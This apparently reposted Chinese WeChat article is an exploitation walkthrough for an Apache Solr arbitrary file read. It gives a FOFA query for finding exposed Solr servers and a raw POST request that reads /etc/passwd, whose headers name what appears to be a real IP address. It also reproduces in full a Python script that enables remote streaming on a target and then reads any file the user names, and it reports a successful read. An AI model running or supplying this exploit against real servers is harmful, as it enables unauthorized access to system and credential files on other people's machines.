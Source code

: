 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1D4j7cF49yfrh1hErD_3OA)

fofa 语法如下：  

app="Apache-Solr"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Yia0BblwjsvJ8Fp8YSsl0GRYWDRFITar2CMia2IqZ6nfGdSuSX79tU1NlTULFod1BymFfgO8aAFsg/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Yia0BblwjsvJ8Fp8YSsl0Gu3NYHLIywGAkFyACAoiasomiboYTCyTheuAfpJxGX2ibcvmKZZgO5uKbg/640?wx_fmt=png)

POC 如下：  

```
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

当然我们也可以使用 PeiQi 师傅已经写好的 python 脚本  

```
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)
```

我们把脚本复制到一个 test.py 里，然后开始运行  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Yia0BblwjsvJ8Fp8YSsl0GZqbSsVfAr6CCCiaNc8r9u6dqg18iapdDbnbNr6u8BVqAhtIP2PVsHRKQ/640?wx_fmt=png)

发现成功读取到 / etc/passwd  

Solr

Solr 是一个独立的企业级搜索应用服务器，它对外提供类似于 Web-service 的 API 接口。用户可以通过 http 请求，向搜索引擎服务器提交一定格式的 XML 文件，生成索引；也可以通过 Http Get 操作提出查找请求，并得到 XML 格式的返回结果。

特点
--

Solr 是一个高性能，采用 Java 开发，基于 Lucene 的全文搜索服务器。同时对其进行了扩展，提供了比 Lucene 更为丰富的查询语言，同时实现了可配置、可扩展并对查询性能进行了优化，并且提供了一个完善的功能管理界面，是一款非常优秀的全文搜索引擎。